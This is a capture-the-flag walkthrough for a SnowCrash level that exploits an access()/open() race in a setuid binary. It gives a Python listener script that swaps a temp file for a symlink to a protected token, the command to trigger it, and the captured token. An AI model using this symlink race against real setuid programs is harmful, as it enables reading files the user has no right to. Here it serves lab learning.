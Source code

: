 # SnowCrash Level09 Guide
This guide will walk you through the process of finding the password for the `flag10` user.

## Procedure:

1. **Examine your environment using Unix commands.**

   - `ls -la` : Lists the files and their permissions in the current directory.

2. **After executing `ls -la`, you should notice two files: 'level10' executable and 'token'.**

   - The 'level10' file is an executable that checks if you have read rights on a file, then sends its contents to a server. 
   - The 'token' file holds the contents that you need access to.

3. **Analyze the details of the executable.**

   - Use the `strings level10` command to display readable sequences of characters in the executable. You will see that it uses 'access' then 'open' (RTFM).

4. **Run the following Python script**

Save this script in your `/tmp` folder, then run it.
```python
import socket
import os

fp = open('/tmp/salut', 'w')
fp.close()
HOST = ''
PORT = 6969
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((HOST, PORT))
s.listen(1)
conn, addr = s.accept()
print('Connected by', addr)
os.remove("/tmp/salut")
os.symlink("/home/user/level10/token", "/tmp/salut")
while True:
        data = conn.recv(1024)
        if not data: break
        print("data: " + data)
```

Open a new tab, connect to the user `level10` using the previous flag.  

Run this command:
```bash
./level10 /tmp/salut 127.0.0.1
```
You can now go back to the other terminal tab and check the result.
```bash
level10@SnowCrash:/tmp$ python test.py
('Connected by', ('127.0.0.1', 34714))
data: .*( )*.
woupa2yuojeeaaed06riuj63c

```

You can now use this to log as `flag10` user, `getflag` and go to the next challenge.
